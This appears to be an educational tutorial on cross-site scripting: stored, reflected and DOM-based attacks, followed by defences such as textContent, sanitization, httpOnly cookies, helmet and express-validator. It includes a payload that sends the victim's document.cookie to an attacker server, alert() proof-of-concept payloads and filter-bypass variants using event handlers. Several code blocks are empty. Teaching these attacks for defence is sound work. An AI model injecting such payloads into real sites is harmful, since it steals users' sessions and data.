



# Cross-Site Scripting (XSS) Attacks

Cross-Site Scripting ([XSS](https://owasp.org/www-community/attacks/xss/)) is a common web application vulnerability that occurs when a web application renders unsanitized input to the front end of an application. An attacker takes advantage of this vulnerability by injecting malicious code, generally in the form of JavaScript, through the browser. They can trick a benign website into executing this code for other users. This enables an attacker to steal information from another user’s client-side data, redirect a user to malicious pages, or take control of their browser!

## Stored XSS
A [stored XSS](https://owasp.org/www-community/attacks/xss/#stored-xss-attacks) vulnerability occurs when a web server stores an unsanitized user input and displays it to other users. In a worst-case scenario, an attacker can input a malicious script and store it to the vulnerable website, making the script run for all other users on that page.


Let’s say a website has a poorly designed comment function where the backend does not sanitize user comments. It may be possible for an attacker to add dangerous JavaScript to their comment. Now, any time another user loads the page and the server displays the comment with the bad code to the HTML, that user’s browser will execute the JavaScript code. This is an example of a Stored XSS attack.

One example could be, instead of writing a review, the attacker writes the following:

```
<script>fetch(`http://localhost:5000?data=${document.cookie}`)</script>

```

In the code above, they’re making a fetch request to the attacker’s server and sending the victim’s cookie. We’re also using encodeURIComponent in order to parse the text and format it so that it’s read as a query [parameter](https://owasp.org/www-community/) in the URL:

```
http://rentaroom.com/?newReview=%3Cscript%3Efetch%28%60http%3A%2F%2Flocalhost%3A5000%3Fdata%3D%24%....Fscript%3E

```

Once the attacker submits this “review”, RoomCademywill store the code in their database. Now, whenever a victim visits the page and retrieves the comments, this code will be run and executed, sending the victim’s information to the attacker’s server.

## Reflected XSS
[Reflected XSS](https://owasp.org/www-community/attacks/xss/#reflected-xss-attacks) occurs when a user’s input is immediately returned back to the user. This return may come in the form of an error message, a popup, or a search term. In these instances, the malicious code is never stored by the server. Rather, it exists as a value in the URL or request
Despite the bad code not being stored in the database and executed by all victims’ browsers, the attacker can use Reflected XSS to target certain users, forcing them to execute the malicious script.
A user might get sent this malicious link:

```
http://www.somesite.com/profile?name=<script>maliciousFunc(variable)</script>

```

*Note: Remember that in real life, the actual link would be encoded so it doesn’t look obvious that it’s a suspicious link.*
The site might send a GET request to /profile for example. Within that GET request, the vulnerable code would be corrupted and execute the malicious code that’s sent with the payload.


## DOM-Based XSS
The DOM, short for Document Object Model, is used to help scripts and the underlying webpage interact. When user input is interpreted by the DOM, an attacker is able to inject malicious code there. These types of vulnerabilities do not cause any changes in how the server responds. Rather, these attacks are completely client-side.
For example, a web page may use client-side Javascript to customize a welcome page, displaying their name based on a value in the URL. Depending on how the Javascript runs, a [DOM-Based XSS attack](https://owasp.org/www-community/attacks/DOM_Based_XSS) may be able to replace the name value with a malicious script. If a victim loaded the page with the attacker’s code, the vulnerable webpage may execute the code!


Let’s assume that a site is running code to render a name dynamically, and this code lives within dashboard.html. The code to render the name dynamically might look something like this:

```
greeting.innerHTML = "Welcome " + name + "!";

```

Notice how this code is *changing the HTML* of the page using innerHTML. If an attacker wanted to implement a DOM-Based XSS attack they would inject malicious code into the name input field instead of a plaintext name. Instead of sending their name, an attacker could input a value like:

```
<script>alert("This is an attack!");</script>

```

The alert function will then be propagated to the webpage to be executed.
Some webpages might accidentally allow for code to be injected in the [URL](https://owasp.org/www-community/) as well. For example, the following URL expects a name as a parameter:

```
http://www.somesite.com/userpage.html?name=jorge

```

This could potentially allow the attacker to effectively do:

```
http://www.somesite.com/userpage.html?name=<script>maliciousFunc(variable)</script>

```

In reality, the attacker would disguise the URL using a URL shortener so that it is not obvious it contains a script. The encoded URL might look like this:

```
https://www.somesite.com
```

```

```

### Use img tag to inject javascript code
img tags have a common attribute called onerror that executes javascript code instantly if an image does not exist.

```

```

```

```

## DOM-Based Precautions
To be more specific, these types of attacks happen when data from a user-controlled *source* (like user name or redirect [URL](https://owasp.org/www-community/) taken from the URL fragment) reaches a **sink**, which is a function like eval() or a property setter like .innerHTML, that can execute arbitrary JavaScript code.
There are several methods and attributes which can be used to directly render HTML content within JavaScript. If these methods are provided with malicious input, then an XSS vulnerability could result. For example:

```
// Attribute:
element.innerHTML = "<HTML> Tags and markup";
// Method:
 document.write("<HTML> Tags and markup");

```

Instead, one can replace these methods with an attribute like textContent.

```
// Will add as an actual HTML element.
element.innerHTML = "<maliciousHTML>";
// Will render as text on the webpage.
element.textContent = "<displaysAsText>";

```

Ideally, one could take a step further and avoid rendering user input, especially if it affects DOM elements such as the document.url, document.location, or document.referrer.
Lastly, one should validate and sanitize all user input in order to prevent any data manipulation.
For example

```
// Exposed
document.write("<b>Current URL</b> : " + document.baseURI);
// Safe -> this needs to have a tag coreated inside the <body> of the HTML, for example <div id="urlinfo"></div>
document.getElementById('urlinfo').textContent = document.baseURI;

```

## Identifying XSS Vulnerabilities
As with any vulnerability, it is important that we investigate any potential input areas. When looking at the application, consider all possible fields. Comments, usernames, custom settings, and parameters all provide great starting points.
Once we have identified a potential injection point, we can begin testing various inputs to create a proof-of-concept payload (POC). A POC payload will demonstrate that an issue exists, without causing damage. The most basic POC payload is shown below.

```
<script>alert(1);</script>
```

```

```

If a web server is not properly sanitizing user input, this will return a pop-up box.
If this payload does not work, that does not necessarily mean the system is secure. In fact, many systems will take a flawed approach to protection and block certain words. If a blocklist is in effect your request may be blocked, or your `<script>` tags could be removed. There are numerous other ways we can execute code, without ever using a `<script>` tag. Below are some potential workarounds that could be used by an attacker.
Workaround 1:

```


```

Workaround 2:

```
<b onmouseover=alert(1)>click me!</b>

```

Workaround 3:

```
<body onload=alert('test1')>

```

## Preventing XSS Vulnerabilities - Sanitization
Sanitization is the process of removing/replacing problematic characters with safe versions. Depending on the backend language, there may or may not be built-in functions to aid in this process.
However, if these functions do not exist, we can generally succeed in preventing XSS attacks by removing characters such as `<`, `>`, `"`, `=`, and potentially dangerous keywords.
Rather than remove characters, we can also replace them with HTML-encoded versions of the characters. This allows us to retain the characters, but remove their capacity to affect the page’s HTML.
For example, the `<` character would be converted to the `&lt;` string. The browser will render this string as the `<` character, but it will not interpret it as actual HTML, preventing the attack.
It is important to note, however, that depending on how the data is used, this type of escaping may not be enough. It’s important to consider all potential avenues for an attack.
There are also JavaScript packages like [sanitize-html](https://www.npmjs.com/package/sanitize-html) that help sanitizer user inputs!

## Securing Cookies and Headers
An express [server](https://owasp.org/www-community/) that uses express-session to store cookies has the properties httpOnly and secure to configure how to store and send cookies. Setting httpOnly and secure to true helps mitigate the risk of client-side script accessing the protected cookie.
In order to set up a cookie in an Express server, you can use the library express-session to set up a session and configure the application with specific properties pertaining to cookies:

```
app.use(
  session({
    secret: "my-secret",
    resave: true,
    saveUninitialized: true,
    cookie: {
      httpOnly: true,
      secure: true
    },
  })
);

```

Moreover, we can include the [helmet](https://www.npmjs.com/package/helmet) package to edit [HTTP](https://owasp.org/www-community/) headers. Helmet.js is a collection of 15 Node modules that interface with Express. Each module provides configuration options for securing different HTTP headers. One of them being the contentSecurityPolicy which is an added layer of security that helps to detect and mitigate certain types of attacks. Fortunately, by just including this package in your express app, 11 of these modules (including the content security policy module) will be configured automatically.
You can use helmet by adding the following line of code:

```
app.use(helmet());

```

## Data Validation and Sanitization
When we validate data we ensure that the user is not submitting information that doesn’t fit a certain format. Moreover, we can use sanitization in order to reformat data so no malicious code is sent.
In other words, validation checks if the input meets a set of criteria (such as a [string](https://owasp.org/www-community/) contains no standalone single quotation marks), whereas sanitization modifies the input to ensure that it is valid (such as removing single quotes).
There are many packages that help validate user data, and one common package is [express-validator](https://express-validator.github.io/docs/). It’s built off of the validator package, and it is recommended for use in express applications. With express-validator, we can verify if a string matches a certain format by importing certain functions such as check:

```
const { check } = require("express-validator");

```

Once the function is imported, it can be used as a [middleware](https://owasp.org/www-community/) within our endpoints, to validate any input that’s submitted within objects attached to req (such as data sent in a form through req.body):

```
app.post("/login", [
  check('email').isEmail(),
  // password must be at least 5 chars long
  check('password').isLength({ min: 5 }),
], (req, res) => {});

```

In the example above, the email field is sent through a login form and retrieved from req.body. Notice how we’re using an [array](https://owasp.org/www-community/) since we can pass in multiple check‘s for input data.
If the input data is valid, then the rest of the request will be executed and we know that the data passed in is safe and properly formatted.
